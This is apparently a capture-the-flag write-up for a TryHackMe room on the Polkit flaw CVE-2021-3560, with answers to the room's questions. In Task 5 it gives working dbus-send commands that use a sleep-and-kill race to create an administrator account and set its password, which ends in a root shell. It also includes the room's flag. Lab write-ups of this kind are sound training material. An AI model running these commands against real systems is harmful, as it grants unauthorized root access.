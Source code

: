 ```yaml
---
title: Polkit CVE-2021-3560
author: CYB3RM3
name: CYB3RM3 | Polkit CVE-2021-3560
date: 2022-01-30 12:52:29 +0100
categories: [TryHackMe, CVE]
tags: [CVE]
---
```


Walkthrough room for CVE-2021-3560

THM Room [https://tryhackme.com/room/polkit](https://tryhackme.com/room/polkit)


## TASK 1 : Info Deploy
### Click the green "Start Machine" button to deploy the machine!
No Answer

## TASK 2 : Info Important! About Dynamic Flags
### What is the URL of the website you should submit dynamic flags to?
Answer : https://flag.muir.land/

## TASK 3 : Tutorial Background
### In what version of Ubuntu's policykit-1 is CVE-2021-3560 patched?
Answer : 0.105-26ubuntu1.1

### What program can we use to run commands as other users via polkit?
Answer : pkexec

## TASK 4 : Tutorial Exploitation Process
### Read the information above
No Answer.

## TASK 5 : Practical Do it for yourself! 
### Root Flag
Using the following steps as explained in the task :

```console
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```
{: .nolineno }

This gives us the time for the execution +/- 11 ms so break it after 5 ms :

```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
{: .nolineno }

We need to do the same message for ddbus with the password hash we generated :

```console
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedeskt
op/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$6$97K8LUgOaabpqA5Z$u5s5mH9fyGvw9/FtW62A0mmE.wH
O1Pl.MTLFlx60PqZSLax5zOAyWiylmuMxE.8Odm3Gwpy645ldoYbwsl8Jn/' string:"ask the pentester" & sleep 0.005s; kill $!
```
{: .nolineno }

I need 3 try to get it correctly because of mispelling the request :

![dbus-send](/images/thm/polkit/polkit_1.png)
_dbus-send_

We can now go into root shell :

![Root](/images/thm/polkit/polkit_2.png)
_Root_

And go to the dynamic flag website from Muiri <https://flag.muir.land/> to submit our root.txt content and retrieve the flag :

![Flag](/images/thm/polkit/polkit_3.png)
_Flag_

Answer : THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}